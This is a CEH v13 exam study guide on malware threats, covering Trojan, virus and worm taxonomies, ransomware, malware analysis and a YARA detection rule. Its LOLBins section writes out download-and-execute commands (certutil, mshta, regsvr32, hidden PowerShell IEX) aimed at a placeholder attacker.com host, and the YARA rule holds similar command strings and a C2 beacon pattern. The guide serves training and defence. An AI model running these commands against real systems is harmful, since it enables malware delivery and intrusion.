




<div align="center">




# 🛡️ CEH v13 — Module 07: Malware Threats
### Certified Ethical Hacker (CEH) Exam Notes • Trojan Taxonomy • Virus Architecture • Worm Propagation • Fileless Malware (LOLBins) • Static & Dynamic Analysis • YARA

[-0078D4?style=for-the-badge&logo=shield)](https://www.eccouncil.org/programs/certified-ethical-hacker-ceh/)
[](https://www.eccouncil.org/)
[](../README.md)
[](./README.md)

<p align="center">
  <b>Authoritative, exam-oriented study guide and reference architecture for CEH v13 Module 07: Malware Threats. Covers malware taxonomy, Trojan architectures (wrappers, crypters, droppers), complete virus classifications (polymorphic, metamorphic, cavity, multipartite), worm replication mechanics, fileless malware and Living-off-the-Land Binaries (LOLBins), Ransomware encryption schemes, static analysis (PE headers, SSDEEP, imphash), dynamic behavioral sandboxing (ProcMon, RegShot, INetSim), and YARA detection authoring.</b>
</p>

[📖 Module Hub](../README.md) • [📋 PDF Reference Part 1](./CEHv13%20-%20Module%2007%20-%20Malware%20Threats%20Part%201.pdf) • [📋 Part 2](./CEHv13%20-%20Module%2007%20-%20Malware%20Threats%20Part%202.pdf) • [🗺️ Knowledge Base Index](../../README.md)

</div>

---

## 📋 Table of Contents

- [1. Malware Concepts & Operational Taxonomy](#1-malware-concepts--operational-taxonomy)
  - [The CEH Malware Taxonomy](#the-ceh-malware-taxonomy)
  - [Infection Vectors & Modern Delivery Mechanisms](#infection-vectors--modern-delivery-mechanisms)
- [2. Trojan Concepts & Construction Anatomy](#2-trojan-concepts--construction-anatomy)
  - [The Trojan Operational Model (Server vs. Client)](#the-trojan-operational-model-server-vs-client)
  - [Malware Engineering Tools: Wrappers, Crypters, Droppers, Downloaders](#malware-engineering-tools-wrappers-crypters-droppers-downloaders)
  - [Trojan Classifications & Threat Profiles](#trojan-classifications--threat-profiles)
- [3. Virus Concepts & Architectural Classifications](#3-virus-concepts--architectural-classifications)
  - [The Virus Lifecycle: Infection, Execution, Replication](#the-virus-lifecycle-infection-execution-replication)
  - [Comprehensive Virus Taxonomy (High-Yield Exam Section)](#comprehensive-virus-taxonomy-high-yield-exam-section)
  - [Polymorphic vs. Metamorphic Viruses: The Definitive Distinction](#polymorphic-vs-metamorphic-viruses-the-definitive-distinction)
- [4. Worm Concepts & Propagation Mechanics](#4-worm-concepts--propagation-mechanics)
  - [Virus vs. Worm: Architectural Differences](#virus-vs-worm-architectural-differences)
  - [Autonomous Network Worm Replication](#autonomous-network-worm-replication)
- [5. Fileless Malware & Living-off-the-Land (LOLBins)](#5-fileless-malware--living-off-the-land-lolbins)
  - [Fileless Malware Execution Mechanics](#fileless-malware-execution-mechanics)
  - [High-Yield LOLBins & LOLBas Payloads](#high-yield-lolbins--lolbas-payloads)
- [6. Ransomware & The Cyber Extortion Lifecycle](#6-ransomware--the-cyber-extortion-lifecycle)
  - [Symmetric & Asymmetric Hybrid Encryption Architecture](#symmetric--asymmetric-hybrid-encryption-architecture)
  - [Double & Triple Extortion Operations](#double--triple-extortion-operations)
- [7. Malware Analysis: Static & Dynamic Methodologies](#7-malware-analysis-static--dynamic-methodologies)
  - [Static Analysis: Hashes, PE Headers, and Obfuscation](#static-analysis-hashes-pe-headers-and-obfuscation)
  - [Dynamic Analysis: Sandboxing, ProcMon, RegShot, and INetSim](#dynamic-analysis-sandboxing-procmon-regshot-and-inetsim)
  - [Anti-Analysis & Sandbox Evasion Techniques](#anti-analysis--sandbox-evasion-techniques)
- [8. Malware Detection & YARA Rule Authoring](#8-malware-detection--yara-rule-authoring)
  - [Detection Paradigms: Signature vs. Heuristic vs. Behavioral](#detection-paradigms-signature-vs-heuristic-vs-behavioral)
  - [Authoring Production YARA Rules](#authoring-production-yara-rules)
- [9. Master Decision Tree & Malware Classification](#9-master-decision-tree--malware-classification)
- [10. CEH v13 Exam Essentials & Distinction Matrix](#10-ceh-v13-exam-essentials--distinction-matrix)

---

## 1. Malware Concepts & Operational Taxonomy

### The CEH Malware Taxonomy

Malicious software (Malware) is classified by its **propagation mechanism**, **host dependency**, and **payload intent**:

```
+--------------------------------------------------------------------------+
|                      CEH v13 CORE MALWARE TAXONOMY                       |
+--------------------------------------------------------------------------+
|  HOST-DEPENDENT MALWARE:                                                 |
|  * Virus: Requires a host file or program; requires human activation.    |
|  * Trojan: Disguised as legitimate software; opens covert backdoors.     |
|                                                                          |
|  STANDALONE / SELF-PROPAGATING:                                          |
|  * Worm: Autonomous; consumes network bandwidth; zero human interaction.|
|                                                                          |
|  SPECIALIZED PAYLOAD / ATTRIBUTE MALWARE:                                |
|  * Ransomware: Cryptographically locks user files; demands digital ransom|
|  * Rootkit: Subverts OS kernel/APIs; conceals processes, files, ports.   |
|  * Spyware / Keylogger: Silently records keystrokes, audio, screenshots. |
|  * Fileless Malware: Executes strictly in RAM via native system binaries.|
+--------------------------------------------------------------------------+
```

---

## 2. Trojan Concepts & Construction Anatomy

### The Trojan Operational Model (Server vs. Client)

A Trojan operates across a **Client-Server Architecture**:
* **Trojan Server**: The malicious binary dropped on and executed by the victim machine. It listens on an internal port or initiates outbound reverse connections to the C2.
* **Trojan Client**: The management GUI or console run by the attacker to issue commands, browse victim files, capture keystrokes, or spawn interactive remote shells.



---

### Malware Engineering Tools

```
+--------------------------------------------------------------------------+
|                  MALWARE COMPONENT ENGINEERING TAXONOMY                  |
+--------------------------------------------------------------------------+
|  WRAPPER (Binder):                                                       |
|  Glues a malicious executable to a completely benign program (e.g., a    |
|  calculator or PDF installer). When the victim clicks the file, the      |
|  wrapper executes both binaries simultaneously. Victim sees only the     |
|  benign game/tool.                                                       |
+--------------------------------------------------------------------------+
|  CRYPTER:                                                                |
|  Software used to encrypt, obfuscate, and manipulate the binary byte     |
|  structure of a Trojan so it bypasses static Antivirus (FUD: Fully       |
|  Undetectable). It prepends a decryption routine (stub) to the binary.   |
+--------------------------------------------------------------------------+
|  DROPPER:                                                                |
|  A staged binary that physically contains the malware payload embedded  |
|  within its own body. Once executed, it extracts and writes the malware  |
|  file to disk and executes it.                                           |
+--------------------------------------------------------------------------+
|  DOWNLOADER:                                                             |
|  A small, lightweight staging script or shellcode that contains no       |
|  embedded malware payload; its sole function is to reach out across the  |
|  network to download the second-stage payload from an external server.   |
+--------------------------------------------------------------------------+
```

---

### Trojan Classifications & Threat Profiles

| Trojan Type | Operational Behavior & Objective | Real-World Exam Examples |
| :--- | :--- | :--- |
| **Remote Access Trojan (RAT)** | Provides complete GUI-based desktop control, file transfer, webcam capture, and remote shell execution. | `njRAT`, `DarkComet`, `PoisonIvy`, `AsyncRAT` |
| **Banking Trojan** | Injects rogue form fields into active browser sessions (Man-in-the-Browser) to steal 2FA tokens and banking credentials. | `Zeus`, `Qakbot`, `Dridex` |
| **Botnet Trojan** | Enslaves victim endpoints into a globally controlled swarm to orchestrate coordinated DDoS floods or spam campaigns. | `Mirai`, `Necurs` |
| **Destructive / Wiper** | Intentionally wipes the Master Boot Record (MBR) or overwrites disk sectors with random zeros/junk to destroy operations. | `Shamoon`, `HermeticWiper` |
| **Proxy Trojan** | Converts victim host into a socks proxy, routing an attacker's malicious scans through the victim's IP address. | Generic SOCKS proxies |

---

## 3. Virus Concepts & Architectural Classifications

### Comprehensive Virus Taxonomy (High-Yield Exam Section)

EC-Council tests deeply on specific virus infection strategies:

```
+--------------------------------------------------------------------------+
|                      COMPREHENSIVE VIRUS TAXONOMY                        |
+--------------------------------------------------------------------------+
|  1. BOOT SECTOR VIRUS:                                                   |
|     Infects the Master Boot Record (MBR) or Volume Boot Record (VBR).    |
|     Executes before the operating system kernel is loaded into RAM.      |
|     (e.g., Michelangelo, Stoned)                                         |
+--------------------------------------------------------------------------+
|  2. FILE INFECTOR / PARASITIC VIRUS:                                     |
|     Attaches directly to executable files (.EXE, .DLL, .SYS). Executes   |
|     its virus routine before passing execution back to the host code.    |
+--------------------------------------------------------------------------+
|  3. MULTIPARTITE VIRUS (High-Yield CEH Trap):                            |
|     Infects BOTH the Master Boot Record (MBR) AND executable files on    |
|     disk simultaneously. Re-infects files from boot sector and vice versa.|
|     Requires complete dual remediation to eradicate. (e.g., Ghostball)   |
+--------------------------------------------------------------------------+
|  4. MACRO VIRUS:                                                         |
|     Written in Visual Basic for Applications (VBA) embedded inside       |
|     Microsoft Office files (.docm, .xlsm). Platform-independent.         |
|     (e.g., Melissa)                                                      |
+--------------------------------------------------------------------------+
|  5. CAVITY (SPACEFILLER) VIRUS:                                          |
|     Finds empty, unused null-byte regions (slack space) within existing  |
|     host binaries and inserts its code there. DOES NOT alter host file   |
|     size, making detection via file size comparison impossible!          |
+--------------------------------------------------------------------------+
|  6. CLUSTER VIRUS:                                                       |
|     Modifies the directory table pointers so that any call to launch a   |
|     legitimate executable redirects the operating system to execute the  |
|     virus code first.                                                    |
+--------------------------------------------------------------------------+
|  7. COMPANION VIRUS:                                                     |
|     Does not modify the original program file. Instead, it creates a     |
|     companion file with the exact same name but a prioritized extension  |
|     (e.g., creates calc.com alongside calc.exe; Windows runs .com first).|
+--------------------------------------------------------------------------+
|  8. STEALTH / TUNNELING VIRUS:                                           |
|     Intercepts low-level OS interrupts (INT 13h) and antivirus disk read |
|     requests, presenting the original clean, uninfected file to the AV.  |
+--------------------------------------------------------------------------+
```

---

### Polymorphic vs. Metamorphic Viruses: The Definitive Distinction

```
+--------------------------------------------------------------------------+
|       POLYMORPHIC VIRUS              vs.          METAMORPHIC VIRUS      |
+--------------------------------------------------------------------------+
|  Maintains an ENCRYPTED payload body.    DOES NOT USE ENCRYPTION.        |
|                                                                          |
|  Uses a Mutation Engine to change its    Completely rewrites its OWN     |
|  decryption routine and encryption key   source code and structure from  |
|  upon every replication.                 scratch upon every infection!   |
|                                                                          |
|  The decrypted payload code remains      The assembly instructions change|
|  IDENTICAL in memory once unpacked!      (instruction substitution, dead |
|                                          code insertion, register swap). |
|                                                                          |
|  Detected by: Emulation sandboxing       The most complex virus type to  |
|  and scanning RAM after decryption.      detect by static signatures!    |
+--------------------------------------------------------------------------+
```

---

## 4. Worm Concepts & Propagation Mechanics

### Virus vs. Worm: Architectural Differences

| Attribute | Computer Virus | Network Worm |
| :--- | :--- | :--- |
| **Host Dependency** | **Must** attach to an existing host file (`.exe`, `.doc`). | **Standalone** program; requires no host file. |
| **Human Activation** | **Requires** user action (double-clicking, opening macro). | **Zero user action**; autonomous execution. |
| **Propagation Vector** | File sharing, USB flash drives, email attachments. | Scans subnets, exploits network vulnerabilities. |
| **Primary Impact** | File corruption, data theft, local disruption. | Mass network congestion, bandwidth saturation, remote code execution. |

### Famous Worm Vectors
* **Morris Worm (1988)**: First recognized Internet worm; exploited `sendmail` (DEBUG command), `fingerd` buffer overflow, and trusted `rsh`/`rexec`.
* **WannaCry (2017)**: Exploited the SMBv1 vulnerability **MS17-010 (EternalBlue)** to self-propagate across global internal subnets and encrypt endpoints within seconds.

---

## 5. Fileless Malware & Living-off-the-Land (LOLBins)

### Fileless Malware Execution Mechanics

Fileless malware does not drop binary executables (`.exe`) onto the physical disk, defeating traditional antivirus file-scanning engines:

```
Memory (RAM):       [ PowerShell.exe ]  <---  Downloads & executes payload directly in RAM
                           |
                           v
Windows Subsystems: [ WMI / Registry ]  <---  Stores encoded persistence scripts
                           |
                           x (No .exe file ever written to physical hard drive!)
Physical Disk:      [ Clean Hard Drive ]
```

### High-Yield LOLBins & LOLBas Payloads

Living-off-the-Land Binaries (LOLBins) are genuine Microsoft-signed system utilities weaponized by attackers:

```cmd
:: 1. Certutil: Downloading malware disguised as an SSL utility
certutil.exe -urlcache -split -f "http://attacker.com/payload.bin" payload.exe

:: 2. Mshta: Executing remote HTML applications and VBScript in RAM
mshta.exe http://attacker.com/malicious.hta

:: 3. Regsvr32 (Squiblydoo Attack): Executing remote COM scriptlets (.sct)
regsvr32.exe /s /n /u /i:http://attacker.com/payload.sct scrobj.dll

:: 4. PowerShell: In-memory download and execution bypassing execution policies
powershell.exe -nop -w hidden -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/rev.ps1')"

:: 5. Rundll32: Executing exported DLL functions directly
rundll32.exe C:\Windows\System32\shell32.dll,Control_RunDLL
```

---

## 6. Ransomware & The Cyber Extortion Lifecycle

### Symmetric & Asymmetric Hybrid Encryption Architecture

Modern ransomware utilizes a **two-tier hybrid cryptographic architecture** to maximize encryption speed while preventing offline recovery:



---

## 7. Malware Analysis: Static & Dynamic Methodologies

### Static Analysis: Hashes, PE Headers, and Obfuscation

Static analysis inspects the binary code **without executing it**:

* **Cryptographic Hashing**: Generating MD5, SHA-1, and SHA-256 hashes to cross-reference against threat intelligence engines (VirusTotal).
* **Fuzzy Hashing (SSDEEP)**: Calculates context-triggered piecewise hashes (CTPH) to determine the percentage similarity between two distinct malware variants.
* **Import Hashing (Imphash)**: Hashes the specific order and library imports in the Import Address Table (IAT). Binaries built from the same code base yield identical imphashes regardless of payload encryption.
* **Portable Executable (PE) Headers**:
  * `.text`: Contains compiled CPU instructions.
  * `.data`: Initialized global variables.
  * `.rdata`: Read-only data (strings, constants, IAT).
  * `.rsrc`: Resources (icons, dialogs, embedded secondary payloads).

```bash
# Extracting human-readable strings from an unknown binary
strings -a -n 8 suspect_sample.exe | grep -i "http"

# Unpacking a UPX-compressed binary
upx -d suspect_sample.exe -o unpacked.exe
```

---

### Dynamic Analysis: Sandboxing & System Telemetry

Dynamic analysis executes the malware in an isolated, monitored environment to observe live behavior:

```
+--------------------------------------------------------------------------+
|                     DYNAMIC MALWARE ANALYSIS SUITE                       |
+--------------------------------------------------------------------------+
|  Process Activity:   Process Monitor (ProcMon) & Process Explorer        |
|                      Monitors real-time thread creation, DLL injection,  |
|                      and process hollowing.                              |
+--------------------------------------------------------------------------+
|  Registry Diffing:   RegShot                                             |
|                      Takes "1st Shot" before infection, "2nd Shot" after |
|                      infection, and generates a granular comparison of   |
|                      added persistence keys.                             |
+--------------------------------------------------------------------------+
|  File Integrity:     Filemon / FolderChangesView                         |
|                      Monitors file modifications, dropped scripts.       |
+--------------------------------------------------------------------------+
|  Network Simulation: INetSim / FakeNet-NG / Wireshark                    |
|                      Simulates DNS, HTTP, IRC, and SMTP services so      |
|                      malware believes it has active Internet access.     |
+--------------------------------------------------------------------------+
```

---

### Anti-Analysis & Sandbox Evasion Techniques

* **Sleep Timers**: Malware pauses execution for hours or days using Windows API `Sleep()` or waiting for user interaction to outlast automated sandbox analysis timeouts (typically 2–5 minutes).
* **Hardware & VM Fingerprinting**:
  * Checks MAC address vendor OUIs (`00:05:69` for VMware, `08:00:27` for VirtualBox).
  * Queries registry keys for virtualization strings: `HARDWARE\Description\System\SystemBiosVersion`.
  * Checks for minimal hardware specs (e.g., less than 4GB RAM or 2 CPU cores indicates a sandbox).
* **Debugger Detection**: Calls the Win32 API `IsDebuggerPresent()` or inspects the `BeingDebugged` flag inside the Process Environment Block (PEB).

---

## 8. Malware Detection & YARA Rule Authoring

### Authoring Production YARA Rules

**YARA** is the de facto industry standard for identifying and classifying malware based on textual or binary patterns:

```yara
rule CEHv13_Trojan_Dropper_Sample {
    meta:
        description = "Detects CEH v13 sample trojan dropper and LOLBin execution"
        author = "Ethical Hacker"
        date = "2026-10-27"
        severity = "High"

    strings:
        // Text strings
        $str1 = "cmd.exe /c certutil.exe -urlcache -split -f" ascii wide
        $str2 = "powershell.exe -ep bypass -nop" nocase
        
        // Hexadecimal signature (PE Header MZ check)
        $mz = { 4D 5A }
        
        // Regular expression matching IP-based C2 beaconing
        $c2_beacon = /http:\/\/[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}:[0-9]{2,5}\/beacon/

    condition:
        // Must start with MZ header and match either string AND the C2 pattern
        $mz at 0 and ($str1 or $str2) and $c2_beacon and filesize < 5MB
}
```

---

## 9. Master Decision Tree & Malware Classification

```
                          [ UNKNOWN MALWARE SAMPLE ]
                                      |
                     Is it a standalone program?
                     /                         \
                   YES                          NO (Requires host file)
                  /                              \
         Does it replicate?                   [ VIRUS ]
         /                \                       |
       YES                 NO         Does it change its appearance?
      /                     \               /                   \
  [ WORM ]               [ TROJAN ]       YES                    NO
                         (RAT, Wiper,    /     \                  \
                          Banking)   POLYMORPHIC METAMORPHIC    [ STANDARD ]
                                     (New decrypt  (Rewrites    (Boot Sector,
                                      stub each     entire       Macro,
                                      infection)    assembly)    Cavity)
```

---

## 10. CEH v13 Exam Essentials & Distinction Matrix

| Term / Technique | Essential CEH Exam Distinction |
| :--- | :--- |
| **Multipartite Virus** | Infects **both** the Master Boot Record (MBR) and executable files on disk simultaneously. |
| **Cavity (Spacefiller) Virus**| Overwrites null-byte regions inside an existing file; **does not increase host file size**. |
| **Polymorphic vs. Metamorphic**| **Polymorphic** mutates only its decryptor and encryption key (payload is encrypted); **Metamorphic** completely rewrites its source/assembly code without encryption. |
| **Worm vs. Virus** | **Worms** are standalone and self-propagate automatically without human action. **Viruses** require a host file and user activation. |
| **Wrapper** | Binds a malicious file to a benign application so both execute together. |
| **Crypter** | Encrypts and obfuscates a Trojan to make it Fully Undetectable (FUD) by static antivirus scanners. |
| **RegShot** | Takes two registry snapshots (before and after infection) to generate a diff report of persistence entries. |
| **LOLBins (Certutil / Mshta)**| Native, legitimate Microsoft-signed system utilities repurposed to download and execute malware without dropping custom binaries. |
| **SSDEEP** | Context-Triggered Piecewise Hashing (CTPH) used to identify percentage **similarity** between malware variants. |

---

<div align="center">

[⬅️ Previous: Module 06 — System Hacking](../Module%2006/README.md) • [Next: Module 08 — Sniffing ➡️](../Module%2008/README.md)

</div>
